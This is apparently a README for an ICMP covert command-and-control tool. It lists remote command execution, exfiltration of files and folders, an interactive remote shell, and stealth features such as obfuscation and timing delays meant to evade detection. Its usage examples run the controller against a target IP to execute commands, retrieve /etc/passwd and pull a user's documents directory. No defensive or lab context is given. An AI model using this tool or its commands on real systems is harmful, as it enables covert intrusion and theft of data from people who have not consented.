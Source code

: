 ## Features

### Core Functionality
- **Command Execution**: Execute shell commands on target systems
- **File Transfer**: Retrieve files and directories from target systems
- **Interactive Shell**: Real-time command execution with persistent session
- **Session Management**: Unique session IDs with collision prevention
- **Chunking**: Large data split into manageable packets
- **Retry Logic**: Automatic resend of missing chunks

### Stealth Features (Full Mode Only)
- **Obfuscation Levels**: 3 levels of payload obfuscation
- **Rate Limiting**: Configurable packet rate limits
- **Realistic Delays**: Natural timing between packets
- **Interface Detection**: Automatic network interface detection
- **Privilege Checking**: Proper privilege validation

### Security Features
- **Command Validation**: Protection against dangerous commands
- **Path Sanitization**: Prevention of directory traversal attacks
- **Input Validation**: Comprehensive input sanitization
- **Error Handling**: Robust error handling and recovery

## Usage Examples

### Basic Command Execution
```bash
# Execute a simple command
python3 controllers/icmp_c2_server.py 192.168.1.100 cmd 'ls -la'

# Get system information
python3 controllers/icmp_c2_server.py 192.168.1.100 cmd 'uname -a'
```

### File Operations
```bash
# Retrieve a specific file
python3 controllers/icmp_c2_server.py 192.168.1.100 file /etc/passwd

# Retrieve an entire directory
python3 controllers/icmp_c2_server.py 192.168.1.100 folder /home/user/documents
```

### Interactive Mode
```bash
# Start interactive shell
sudo python3 controllers/icmp_shell.py 192.168.1.100

# Available commands in interactive mode:
# - help: Show available commands
# - clear: Clear the screen
# - status: Show connection status
# - history: Show command history
# - exit/quit: Exit the shell
```
